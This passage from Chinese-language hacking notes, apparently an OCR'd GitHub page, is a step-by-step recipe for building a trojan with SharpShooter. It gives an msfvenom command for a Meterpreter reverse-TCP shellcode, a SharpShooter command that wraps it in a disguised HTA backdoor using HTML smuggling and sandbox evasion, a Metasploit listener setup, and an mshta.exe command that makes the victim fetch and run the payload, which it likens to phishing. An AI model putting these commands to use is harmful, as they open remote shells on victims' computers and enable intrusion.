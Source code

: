 然后需要编译然后才可以被当做木马使用

![image-20220112135948473](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220112135948473.png)

10/59



## sharpshooter

云盘里可以下载

```
cd   SharpShooter-master/
ls
chmod 777 ./*
# 发现有requirements.txt就要去安装Python的依赖库

# 安装python依赖库
pip install -i https://pypi.douban.com/simple -r requirements.txt

# 生成txt格式木马
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.1.144 LPORT=4444 -f raw -o shellcode.txt

# 创建hta后门
python SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./shellcode.txt --sandbox 4 --smuggle --template mcafee

# 得到hta格式和html格式

use  multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.144
set lport 4444
exploit

被植入电脑cmd：执行
mshta.exe http://192.168.1.252/foo.hta
http://192.168.1.252/foo.html
```

类似钓鱼网站执行
